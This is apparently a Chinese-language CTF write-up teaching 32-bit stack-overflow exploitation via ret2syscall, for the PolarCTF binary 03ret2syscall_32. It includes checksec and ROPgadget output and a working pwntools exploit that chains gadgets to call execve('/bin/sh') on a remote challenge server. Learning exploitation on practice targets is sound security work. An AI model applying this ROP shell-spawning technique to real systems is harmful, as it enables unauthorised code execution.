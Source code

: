 ```yaml
---
title: 基础栈溢出ret2syscall
layout: doc

---
```

# {{$frontmatter.title}}
[[toc]]

## 系统调用

### write
```asm
    mov eax, 0x4
    mov ebx, 1
    mov ecx, [ "Hello, World!\n" ]
    mov edx, 13
    int 0x80
    => write(1, "Hello, World!\n", 13)
```
### execve
```asm
    mov eax, 0xb
    mov ebx, [ "/bin/sh" ]
    mov ecx, 0
    mov edx, 0
    int 0x80
    => execve("/bin/sh", 0, 0)
```
## 原理图 
> 很重要

![alt text](image-18.png)

## 例题
> PolarCTFD&N 03ret2syscall_32

### 分析
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file 03ret2syscall_32
03ret2syscall_32: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=7aa0a75d7429c4ba7ba95be1bcae6dd669105fad, not stripped

┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=03ret2syscall_32
[*] '/home/kali/win/Downloads/03ret2syscall_32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

开了部分随机化，堆栈可执行

### ida

![alt text](image-19.png)

没有system 但存在 /bin/sh

可以使用 
- ret2shellcode
- ret2libc
- ret2syscall

为达学习目的，本次例题将全部展示

### ret2syscall

通过构造execve的ROP链，实现攻击

ROPgadget
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary 03ret2syscall_32 --only "pop|ret|int"
0x0806cea3 : int 0x80
0x080b8576 : pop eax ; ret
0x0806f250 : pop edx ; pop ecx ; pop ebx ; ret
# 虽然存在很多短小的 pop x; ret
# 但我们选择连续pop的 更加简洁

┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary 03ret2syscall_32 --string "/bin/sh"
Strings information
============================================================
0x080ea068 : /bin/sh

```
**一定要注意 是 32 还是 64 位**
exp.py
```py
from pwn import *
context(arch="i386", os="linux")
# io = process("./03ret2syscall_32")
io = remote("120.46.59.242", 2127)
padding = 0x208 + 4

print(io.recvline())
print(io.recvline())

sh_addr = 0x080ea068
int_addr = 0x0806cea3
pop_eax_ret = 0x080b8576
pop_edx_ecx_ebx_ret = 0x0806f250

# 很漂亮的传参 ROP链 使用flat函数就不用担心位数了
payload = b'a'*padding + p32(pop_eax_ret) + p32(0xb) + p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(sh_addr) + p32(int_addr)
# payload = flat(['a'*padding,pop_eax_ret , 0xb , pop_edx_ecx_ebx_ret, 0 , 0 , sh_addr , int_addr])

io.sendline(payload)
io.interactive()
```
### ret2shellcode （当堆栈可执行，或者BSS段可写）
**需要能拿到缓冲区的地址**
现在我的技术，拿不到，行不通，有想法的联系我
观察到gets里有参数，试试不覆盖参数，只覆盖地址？
```py

```
### ret2libc
这是静态链接库，无法连接到libc只能 ret2syscall了
